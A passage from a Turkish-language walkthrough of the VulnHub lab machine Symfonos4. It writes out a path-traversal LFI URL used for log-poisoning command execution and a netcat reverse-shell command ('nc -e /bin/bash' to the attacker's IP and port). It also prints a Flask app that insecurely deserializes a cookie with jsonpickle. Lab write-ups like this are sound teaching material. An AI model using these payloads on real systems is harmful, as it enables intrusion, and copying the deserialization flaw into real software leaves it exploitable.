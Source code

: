 Reverse bağlantı için sistemde netcat aracının varlığının tespit edilir.

```txt
http://192.168.56.123/sea.php?file=../../../../../../../../var/log/auth&cmd=which nc
```

{{< image src="/images/vulnhub/symfonos4/nc.png" alt="Hay aksi" position="center" style="border-radius: 2px;" >}}

## 2. Erişim Sağlanması

Sistemde `netcat` uygulamasının olduğu görülmektedir. Netcat bağlantısı için ilgili parametreler gönderilir.
```txt
http://192.168.56.123/sea.php?file=../../../../../../../../var/log/auth
&cmd=nc -e /bin/bash 192.168.56.105 3333
```
3333 numaralı porta shell bağlantısı düşmektedir.

{{< image src="/images/vulnhub/symfonos4/shell.png" alt="Hay aksi" position="center" style="border-radius: 2px;" >}}

*/opt* dizini altında code dizini yer almaktadır. İçerisine bakıldığında *python flask framework* ile yazılmış bir web uygulaması görümektedir.

```txt
www-data@symfonos4:/opt/code$ ls -lsa
ls -lsa
total 28
4 drwxr-xrwx 4 root root 4096 Aug 19  2019 .
4 drwxr-xr-x 3 root root 4096 Aug 18  2019 ..
4 -rw-r--r-- 1 root root  942 Aug 19  2019 app.py
4 -rw-r--r-- 1 root root 1536 Aug 19  2019 app.pyc
4 drwxr-xr-x 4 root root 4096 Aug 19  2019 static
4 drwxr-xr-x 2 root root 4096 Aug 19  2019 templates
4 -rw-r--r-- 1 root root  215 Aug 19  2019 wsgi.pyc
```

app.py dosya içeriği incelenir.

```python
from flask import Flask, request, render_template, current_app, redirect

import jsonpickle
import base64

app = Flask(__name__)

class User(object):

    def __init__(self, username):
        self.username = username


@app.route('/')
def index():
    if request.cookies.get("username"):
        u = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
        return render_template("index.html", username=u.username)
    else:
        w = redirect("/whoami")
        response = current_app.make_response(w)
        u = User("Poseidon")
        encoded = base64.b64encode(jsonpickle.encode(u))
        response.set_cookie("username", value=encoded)
        return response


```